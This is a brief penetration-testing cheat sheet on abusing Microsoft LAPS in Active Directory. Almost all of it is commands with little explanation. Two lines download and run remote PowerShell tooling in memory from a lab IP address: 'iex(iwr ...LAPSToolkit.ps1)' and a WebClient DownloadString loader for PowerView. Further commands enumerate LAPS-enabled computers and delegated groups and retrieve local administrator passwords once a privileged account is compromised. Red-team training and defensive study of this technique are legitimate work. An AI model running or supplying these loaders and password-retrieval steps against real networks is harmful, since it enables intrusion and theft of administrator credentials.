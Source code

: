 # LAPS

## LAPS ToolKit&#x20;

```csharp
iex(iwr http://10.110.0.66:8001/LAPSToolkit.ps1) 
```

### Load the module&#x20;

```csharp
. .\LAPSToolkit.ps1
or
Import-Module .\LAPSToolkit.ps1
```

### Locate computers

```csharp
. .\LAPSToolkit.ps1
Get-LAPSComputers
Find-LAPSDelegatedGroups
```

![](<../../../../.gitbook/assets/image (148).png>)

### Find Delegate groups

```csharp
Find-LAPSDelegatedGroups
```

![](<../../../../.gitbook/assets/image (281).png>)

### Enumerate groups

#### Load powerview

```csharp
 iex(new-object net.webclient).downloadstring('http://10.110.0.66:8000/powerview.ps1')
```

```csharp
Get-NetGroupMember -GroupName <GROUP_NAME>
```

![](<../../../../.gitbook/assets/image (25).png>)

### Retrieve password

{% hint style="info" %}
Require to compromise a privilege user
{% endhint %}

```csharp
Get-LAPSComputers
```

![](<../../../../.gitbook/assets/image (249) (1).png>)

## Resources

{% embed url="https://github.com/leoloobeek/LAPSToolkit" %}
